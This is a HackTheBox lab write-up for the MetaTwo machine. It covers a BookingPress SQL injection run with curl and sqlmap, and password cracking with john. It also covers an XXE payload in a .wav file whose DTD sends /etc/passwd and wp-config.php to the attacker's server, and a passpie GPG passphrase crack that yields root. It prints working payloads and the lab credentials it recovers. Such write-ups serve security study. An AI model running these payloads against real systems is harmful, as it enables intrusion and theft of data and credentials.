

[Easy] MetaTwo

Full compromise on April 17, 2023Written on March 21, 2024
MetaTwo is my ninth machine to compromise on HackTheBox. This machine features an SQL injection vulnerability to get WordPress administrator, an XXE vulnerability to move to a low-privileged user, and a weak passphrase used to encrypt root's password.
Enumeration
Nmap
Let's start with an Nmap scan.
nmap 10.10.11.186 -p- --min-rate=3000Ports 21, 22, and 80 are open. Let's use Nmap again to get more information about them.
nmap 10.10.11.186 -p21,22,80 -sC -sV --min-rate=3000From the output, it seems we're dealing with FTP and a web application. The output also shows that Nmap was redirected to http://metapress.htb when accessing http://10.10.11.186. Let's add this to our hosts file anyway so our browser knows the IP address to metapress.htb.
echo "10.10.11.186" metapress.htb | sudo tee -a /etc/hostscat /etc/hostsPort 21 - FTP
Checking out FTP, it seems like anonymous login isn't allowed. We could try brute-forcing the login but HackTheBox generally doesn't allow problems/machines like that. From the machine submission best practices, it states:
We'll continue on with other ports and come back to FTP if we find potential credentials.
Port 80
Navigating to http://metapress.htb, we are presented with this page:
Judging from this page, this looks like a Wordpress website. This template is too familiar with me. We can use a tool called wpscan to scan the website for interesting files, themes, and plugins. I use the option "-e vp" to enumerate vulnerable plugins, and "--plugins-detection aggressive" to cover more plugins.
wpscan --url http://metapress.htb -e vp --plugins-detection aggressive Unfortunately the scanner did not find any vulnerable plugins.
The scanner did find a robots.txt file:
Investigating the file, it contained a URL to a sitemap file. The sitemap file is essentially a list of pages that is used to make content more visible to search engines. The pages seemed normal and nothing stood out of the ordinary.
The scanner also picked up a readme.html file, but it's just a regular ordinary README file that's included in every install for other software.
At this point, it's time to do manual enumeration. Scanners like wpscan could miss some things that manual enumeration would pick up easily.
In the events page, this website includes a booking feature where users can select a service and make appointments.
This is clearly a plugin, judging how it's made versus the rest of the website. It stands out. To verify, the page source confirms that this is a plugin called "bookingpress-appointment-booking".
Being familiar of how Wordpress structures their directories, we can find the version of the plugin at http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt.
Searching for any vulnerabilities on the plugin, we find an article by wpscan.com indicating a SQL injection vulnerability. (Our scans earlier did not detect this. This would be detected if we were to tell wpscan to scan ALL plugins, which would take a long time.)
Exploit - SQL Injection
The article also includes steps on how to exploit this. How nice of them :).
The first two points can be skipped since they're meant for someone trying to replicate the environment. For the 3rd point, we can find the nonce here:
Now we'll build our curl command. This curl command will send an SQL injection attack using the UNION SELECT technique. We should see the database version, OS version, and numbers 1-6 in the output.
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=f236e9d61a&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'From our above output, we can see that the database executed our SQL query and gave us what we asked for. Now let's query the database for more information. To do this, we'll use sqlmap to automate things. We'll remove our current SQL injection query from the total_service parameter and mark the it with a "*" so that sqlmap will target that parameter only. We know the database is MySQL, so we'll specify sqlmap to use MySQL injections. We'll also increase the risk and level to 3 to find other potential ways to inject.
Sqlmap found our UNION query injection from before, and also found a new boolean-based injection.
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data 'action=bookingpress_front_get_category_services&_wpnonce=d0466b60ee&category_id=33&total_service=1234t*' --dbms mysql --risk 3 --level 3
Using sqlmap, we'll list all databases with the "--dbs" option.
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data 'action=bookingpress_front_get_category_services&_wpnonce=d0466b60ee&category_id=33&total_service=1234t*' --dbms mysql --dbs There are two databases, blog and information_schema. Let's look at what tables are in blog by adding the option "-D blog" to select the blog database and "--tables" to grab all tables.
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data 'action=bookingpress_front_get_category_services&_wpnonce=d0466b60ee&category_id=33&total_service=1234t*' --dbms mysql --dbs -D blog --tablesSqlmap identified 27 tables in the blog database. We'll look into the table "wp_users" to see if we can extract user credentials. We'll add the option "-T wp_users" to select the wp_users table and "--dump" to show everything.
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data 'action=bookingpress_front_get_category_services&_wpnonce=d0466b60ee&category_id=33&total_service=1234t*' --dbms mysql --dbs -D blog -T wp_users --dumpWe now have hashes for users admin and manager. I've saved them to a file named hash and passed it to a tool called john to crack them using the rockyou.txt wordlist.
john hash --wordlist=/usr/share/wordlists/rockyou.txtJohn was able to crack the manager password, but not the admin password. We can test the manager password by using it in the WordPress admin login page at http://metapress.htb/wp-admin. Spoiler alert: it does work and we've successfully logged in.

Looking around, it seems we can't do very much with the manager user. We can only upload new media.
We can find the WordPress version at http://metapress.htb/wp-admin/about.html, which is 5.6.2.
Combining the version and searching for a WordPress media upload exploit, we find a public article about an XML external entities (XXE) vulnerability.
Exploit 2 - XXE
The article explains the details about the vulnerability and even shows how we can reproduce it.
We'll create the payload.wav file and change the IP address to our attack machine as so:
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.4:8000/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wavAnd we'll create the evil.dtd file, changing the IP address to our attack machine:
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"><!ENTITY % init "<!ENTITY % trick SYSTEM 'http://10.10.14.4:8000/?p=%file;'>" >Next we'll start a web server on port 8000 and upload our malicious .wav file. After uploading, the target machine will make a request to our web server to get the evil.dtd file. The target machine will then read the evil.dtd and encode the /etc/passwd file in base64. The result is stored in a variable called file. Then the target machine will make a request to our web server to get a file named exactly what the file variable holds. This essentially exfiltrates data to our machine as we get the base64-encoded data.
We'll throw the result into Cyberchef to decode the contents of the /etc/passwd file from Base64.
This confirms that we are able to read files within the target machine by using this exploit.
The next file we want to read is wp-config.php. This file contains configurations which may include credentials. Usually, MySQL credentials are contained in this file and is located in the root WordPress directory.
We can safely assume that the target machine is reading uploaded files from a path that's already in the WordPress directory, such as /wordpress/uploads. We can modify our evil.dtd file to go up one directory and grab wp-config.php (../wp-config.php), assuming it's there. If it's not there, we can try to go up one more time. If we feel like we've went up too many times, then the wp-config.php is in another directory.
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php"><!ENTITY % init "<!ENTITY % trick SYSTEM 'http://10.10.14.4:8000/?p=%file;'>" >Luckily, after uploading payload.wav again, we get a hit. The file wp-config.php was only one directory above.
Throwing this into Cyberchef to decode it from base64, we get new credentials to access the database (we've already accessed this) and FTP.
Let's try the FTP credentials on FTP.
ftp metapress.htb@10.10.11.1869NYS_ii@FyL_p5M2NvJIt works. We can see two directories named blog and mailer. Blog contains the source files for WordPress. On the other hand, mailer has files we've never encountered before.
Looking into the send_email.php script, we can find credentials for a user named jnelson.
These credentials work for SSH. We're in the target machine as jnelson.
ssh jnelson@10.10.11.186Cb4_JmWM8zUZWMu@YsWe got user.txt flag.
Privilege Escalation
Off the bat, we see an unusual hidden directory in jnelson's home directory named .passpie
The .passpie directory contains two files, .config and .keys, and a directory named ssh which contains two files, jnelson.pass and root.pass.
Searching up what the heck passpie is, it's basically a password manager for Linux that are encrypted using GnuPG. From official documentation:
By simply running the command passpie, we can see there are saved passwords for jnelson and root. If we try to export the password database, we are prompted for a passphrase.
passpiepasspie export pass.txtIf we look into the .keys file, we can see that we have a public and private key. We can try to decrypt the private key by turning it into a hash and cracking it using john to reveal the passphrase and copy root's password.
First, I selected the private key, copy, and pasted it into a file on my attack machine. Then used gpg2john to turn it into a hash.
nano keycat keygpg2john key > hashcat hashNow that we have the hash, let's use john to crack it with the rockyou.txt wordlist.
john hash --wordlist=/usr/share/wordlists/rockyou.txtWe cracked the hash. The passphrase to access the password database is blink182. Let's try to export it to a text file named pass.txt.
passpie export pass.txtblink182cat passSuccess, we now have root's password. Let's switch to the root user and get root flag.
su rootp7qfAZt4_A1xo_0xcat /root/root.txt